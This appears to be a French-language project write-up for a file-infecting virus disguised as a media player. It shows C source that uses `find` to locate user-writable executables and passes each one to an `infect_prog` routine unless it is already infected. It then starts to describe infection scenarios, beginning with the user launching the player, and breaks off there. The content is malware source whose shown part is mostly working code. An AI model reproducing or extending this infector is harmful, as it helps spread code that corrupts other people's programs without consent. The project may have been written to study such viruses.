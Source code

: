 
```c
/**
* Récupère les fichiers exécutables et modifiables par l'utilisateur avec les droits d'écriture
*/
void getUserWorldWritableFiles(MalwareBuilder *malware)
{
    char cmd[1024] ;
    sprintf(cmd, "find ' % s' -executable -not -name '*.old' -writable -type f -exec ls -l {} \\; 2 > /dev/null | grep 'bin' | cut -d ' ' -f9-", malware->defaultRepository) ;

    getAllFile_exec(cmd, malware) ;
}
```

> Ce code exécute la commande linux `find` dans le répertoire %s qui correspond au repértoire d'éxécution du fichier.
> On spécifie grep 'bin' dans le cadre de nos test pour ne pas infecter des répértoire par erreur.
> Finalement on éxécute getAllFile_exec 


```c
/**
 * @return Execute la command puis renvoie un char* contenant le résultat
*/
void getAllFile_exec(char* command,MalwareBuilder *malware) {
    char buffer[1024];
    FILE* pipe = popen(command, "r");
    while(fgets(buffer, sizeof(buffer), pipe) != NULL) {

        buffer[strcspn(buffer, "\n")] = 0;

        if(isInfected(buffer, malware) == 0){
            infect_prog(buffer, malware);
        }
    }
    pclose(pipe);
}
```
> Execute la commande qui est passé en parametre et récupére le flux I/O pour pouvoir récupérer les noms des éxécutables.

#### Dans notre cas nous avons plusieurs scénarios d'infection :

- L'utilisateur lance le média player (**Primo infection**)

Si l'utilisateur lance le média player alors le média player se lance.

```c
// Start the app
mediaplayer_run(app);
```


- L'utilisateur lance un programme cible()
